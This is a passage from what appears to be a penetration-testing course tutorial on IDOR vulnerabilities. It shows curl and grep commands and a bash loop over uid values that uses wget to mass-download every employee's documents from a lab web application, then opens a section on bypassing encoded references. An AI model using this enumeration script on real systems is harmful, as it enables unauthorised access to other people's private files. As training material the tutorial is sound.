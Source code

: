 We can click on [`CTRL+SHIFT+C`] in Firefox to enable the **element inspector**, and then click on any of the links to view their HTML source code, and we will get the following:
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:
```
user@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
As we can see, we were able to capture the document links successfully. We may now use specific bash commands to trim the extra parts and only get the document links in the output. However, it is a better practice to use a **Regex** pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:
```
user@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```
Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
When we run the script, it will download all documents from all employees with `uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees. This script is one example of how we can achieve the same objective. Try using a tool like Burp Intruder or ZAP Fuzzer, or write another Bash or PowerShell script to download all documents.

## Bypassing Encoded References

In the previous section, we saw an example of an IDOR that uses employee uids in clear text, making it easy to enumerate. In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible.
